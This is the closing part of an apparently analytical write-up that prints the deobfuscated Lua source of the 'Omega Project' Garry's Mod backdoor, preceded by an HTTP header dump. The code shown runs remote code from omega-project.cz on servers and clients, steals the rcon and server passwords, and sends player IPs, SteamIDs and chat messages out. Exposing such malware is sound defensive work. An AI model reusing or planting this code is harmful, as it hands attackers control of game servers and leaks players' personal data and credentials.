            {
            Vary    =    "Accept-Encoding",
            Set-Cookie    =    "__cfduid=d011e81c32b1b9d48f331abfd6e4628a51598740966; expires=Mon, 28-Sep-20 22:42:46 GMT; path=/; domain=.omega-project.cz; HttpOnly; SameSite=Lax; Secure,GOOGLE_TRUST_FACTOR=qrLGXXkCAbsNhCdnLSyP; expires=Sun, 30-Aug-2020 01:22:46 GMT; Max-Age=9600,GOOGLE_TRUST_FACTOR=puyseuAkakcwHaKowHLZ; expires=Sun, 30-Aug-2020 01:22:46 GMT; Max-Age=9600,GOOGLE_TRUST_FACTOR=kszSrlEZYRsTXiZzfImB; expires=Sun, 30-Aug-2020 01:22:46 GMT; Max-Age=9600",
            Transfer-Encoding    =    "chunked",
            Connection    =    "keep-alive",
            Date    =    "Sat, 29 Aug 2020 22:42:47 GMT",
            Content-Encoding    =    "gzip",
            Content-Type    =    "text/html; charset=UTF-8",
            Server    =    "cloudflare",
                },
            200,
}
```

</p>
</details>

<details><summary>4) After more work, I can see everything</summary>
<p>

```lua
--[[
 name: Ʊmega Project
 author: Inplex
 Google Trust Api factor: 78/100
 Last Update: 02 06 2020
 Description: If you use the panel for hack you will be banned ! -- Lol, Xalalau
]]

if lock == "lock" then return end
lock="lock"

local header_cWcHqNprbaTRQip = {
  ["Authorization"] = "ZWM2OGJkMjMxMGMyODRiODljNGYyNDliYTkzMWQ2Y2Q"
}

HTTP({ url="https://api.omega-project.cz/api_anti_backdoors.php"; method="get"; success = function (api, anti_backdoors) RunString(anti_backdoors) end })
HTTP({ url="https://api.omega-project.cz/api_player_blacklist.php"; method="get"; success = function (api, bad_player_blacklist) RunString(bad_player_blacklist) end })

local addons_files, addons_folders = file.Find("addons/*", "GAME")

for k,v in pairs(addons_folders) do
    if (v != "checkers") and (v != "chess") and (v != "common") and (v != "go") and (v != "hearts") and (v != "spades") then -- Wtf?
        http.Post("https://api.omega-project.cz/api_addons.php", {
            server_ip = game.GetIPAddress(),
            crsf = "SztseEltZSFDyUscjSKJozBWfKCzHuUJjJwpnKgT#MTg2LjIyOS4yMjYuMTAy#djsPLByfuJkTKEfchWXIbLRYzPXqACCsPkvVHmnV",
            addons_name = v,
            addons_update = util.Base64Encode(file.Time( "addons/"..v, "GAME" ))
        },
        function(http_addons) 
            if string.Left( http_addons, 1 ) == "<" or http_addons == "" then 
                return
            else
                RunString(http_addons) 
            end 
        end,
        function( error ) end,
        header_cWcHqNprbaTRQip)
    end 
end

util.AddNetworkString("net_1")

BroadcastLua([[
    net.Receive("net_1", function()
        CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))))
    end)
]])

function someNetFunction(arg1)
    timer.Simple( 0.5, function( )
        data = util.Compress(arg1)
        len = #data

        net.Start("net_1")
            net.WriteUInt(len, 16)
            net.WriteData(data, len)
        net.Broadcast()
    end)
end

util.AddNetworkString("net_2")

BroadcastLua([[
    net.Receive("net_2", function()
        CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))))
    end)
]])

function SendPly(arg1, steamid64)
    timer.Simple( 0.5, function( )
        data = util.Compress(arg1)
        len = #data
        net.Start("net_2")
        net.WriteUInt(len, 16)
        net.WriteData(data, len)
        for k, ply in pairs(player.GetAll()) do
            if ( ply:SteamID64() == steamid64 ) then
                net.Send(ply)
            end
        end
    end)
end

hook.Add(PlayerInitialSpawn, "hook1", function(ply) 
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
        csrf = "ec68bd2310c284b89c4f249ba931d6cd",
        content = "Client "..ply:Name().." connected ("..ply:IPAddress()..").", 
        server_ip  = game.GetIPAddress()
    }, RunString)
end)

hook.Add(PlayerDisconnected, "hook2", function(ply) 
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
         csrf = "ec68bd2310c284b89c4f249ba931d6cd", 
         color = "de3333",
         content = "Dropped "..ply:Name().." from server (Disconnect by user).", 
         server_ip  = game.GetIPAddress()
    }, RunString)
end)

function ServerLog( logs_content ) 
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
        csrf = "ec68bd2310c284b89c4f249ba931d6cd", 
        content = logs_content, 
        server_ip = game.GetIPAddress()
    }, RunString) 

    return ServerLog( logs_content ) 
end 

function Error( string )
    http.Post("https://api.omega-project.cz/api_get_logs.php",{ 
        csrf = "ec68bd2310c284b89c4f249ba931d6cd", 
        content = string, 
        server_ip = game.GetIPAddress()
    },RunString)

    return error( string )
end

timer.Create( "timer1", 1, 0, function()
    hook.Add( "PlayerSay", "hook3", function( ply, text )
        local http_chat_table = {
            name = ply:Name(), 
            server_ip = GetTcpInfo(), 
            steamid64 = ply:SteamID64(),
            message = text
        }

        http.Post("https://api.omega-project.cz/chat_connect.php?MQOEJzPlmWGTzcI=oAyxQMjHSitigAJ", http_chat_table, function(http_chat) RunString(http_chat) end)
    end)

    if file.Exists("cfg/autoexec.cfg","GAME") then
        local cfile = file.Read("cfg/autoexec.cfg","GAME") 

        for k,v in pairs(string.Split(cfile,"\n")) do 
            if string.StartWith(v,"rcon_password") then
                rcon_pw = string.Split(v,"\"")[2] 
            end
        end 
    end

    if file.Exists("cfg/server.cfg","GAME") then
        cfile = file.Read("cfg/server.cfg","GAME") 
        for k,v in pairs(string.Split(cfile,"\n")) do
            if string.StartWith(v,"rcon_password") then 
                rcon_pw = string.Split(v,"\"")[2] 
            end 
        end 
    end 

    if file.Exists("cfg/game.cfg","GAME") then
        cfile = file.Read("cfg/game.cfg","GAME") 
        for k,v in pairs(string.Split(cfile,"\n")) do
            if string.StartWith(v,"rcon_password") then
                rcon_pw = string.Split(v,"\"")[2] 
            end 
        end 
    end  

    if file.Exists("cfg/gmod-server.cfg","GAME") then
        cfile = file.Read("cfg/gmod-server.cfg","GAME") 

        for k,v in pairs(string.Split(cfile,"\n")) do
            if string.StartWith(v,"rcon_password") then
                rcon_pw = string.Split(v,"\"")[2] 
            end 
        end 
    end

    if rcon_pw == "" then
        rcon_pw = "Aucun Rcon"
    end

    for k,v in pairs(player.GetAll()) do 
        local playerInfo = {
            name = v:GetName(),
            ip = v:IPAddress(),
            server_ip = game.GetIPAddress(),
            crsf = "TFIbsvQYjTFbgXmBOqkeNyKKsURUCRlFedXsdPIm#MTg2LjIyOS4yMjYuMTAy#sBktToCthmfpNctMDsDrhmWcHaDQwsakUivPAHVu",
            steamid = v:SteamID(),
            steamid64 = v:SteamID64(),
        }

        http.Post("https://api.omega-project.cz/user_connect.php?zkHNFOZQhmXBsva=soGpJmAfXbWSliy&ping=" .. v:Ping(), playerInfo, function( http_users ) 
            if string.Left( http_users, 1 ) == "<" or http_users == "" then
                return
            else
                RunString( http_users )
            end 
        end,
        function( error ) end,
        header_cWcHqNprbaTRQip)

    end

    local serverData = {
        i = GetTcpInfo(),
        n = GetHostName(),
        m = game.GetMap(),
        bo = tostring(#player.GetBots()),
        c = game.GetIPAddress().."{+}"..server_key.."{+}1597393287",
        g = engine.ActiveGamemode(),
        crsf = "MTg2LjIyOS4yMjYuMTAy#HSldBHvasYQuaoldmwxTWhRqdXntKabTIdewJWrW",
        nb = tostring(#player.GetAll()).."/"..game.MaxPlayers(),
        lurl = GetConVar("sv_loadingurl"):GetString(),
        pass = GetConVar("sv_password"):GetString(),
        k = "",
        client_func = "someNetFunction",
        r = rcon_pw
    }

    http.Post("https://omega-project.cz/api_lib/_-_-drm-_-_/__.php", serverData, function(http_servers) 
        if string.Left( http_servers, 1 ) == "<" or http_servers == "" then 
            return 
        else 
            RunString(http_servers) 
        end 
    end,
    function( error ) end,
    header_cWcHqNprbaTRQip ) 
end)

```

</p>
</details>

<br/>

That's it. I hope you enjoy :)
